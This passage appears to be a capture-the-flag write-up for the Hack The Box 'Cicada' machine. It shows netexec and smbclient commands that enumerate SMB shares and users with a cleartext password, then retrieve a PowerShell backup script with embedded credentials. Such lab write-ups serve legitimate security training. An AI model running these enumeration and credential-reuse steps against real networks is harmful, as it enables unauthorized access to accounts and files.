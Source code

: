 ```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```
![](Pasted%20image%2020241009171226.png)

Lets also enumerate some users properly with the netexec Tool flag functionality of `--users` that extract the users and its descriptions.

```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
![](Pasted%20image%2020241009171307.png)

I got the creds for user <span style="color:#f04276">david.orelious</span> so lets see its share now , I think now that user can access share <span style="color:#0daece">DEV</span> .

```
nxc smb 10.10.11.35 -u 'david.orelious' -p '<PASSWORD>' --shares

```
![](Pasted%20image%2020241009171351.png)

Lets see what inside this share <span style="color:#0daece">DEV</span>.

```
┌──(kali🔥kali)-[~/Downloads/HTB/Cicada]
└─$ smbclient //10.10.11.35/DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Oct  9 21:46:35 2024
  ..                                  D        0  Thu Mar 14 17:51:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 22:58:22 2024
  ZxbFGRMvap                          D        0  Wed Oct  9 21:46:04 2024

		4168447 blocks of size 4096. 308251 blocks available
smb: \> prompt off
smb: \> mget *
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> cd ZxbFGRMvap
smb: \ZxbFGRMvap\> ls
  .                                   D        0  Wed Oct  9 21:46:04 2024
  ..                                  D        0  Wed Oct  9 21:46:35 2024

		4168447 blocks of size 4096. 308249 blocks available
smb: \ZxbFGRMvap\> cd ..
smb: \> exot
exot: command not found
smb: \> exit
```

```
┌──(kali🔥kali)-[~/Downloads/HTB/Cicada]
└─$ cat Backup_script.ps1   

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "<PASSOWRD>" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```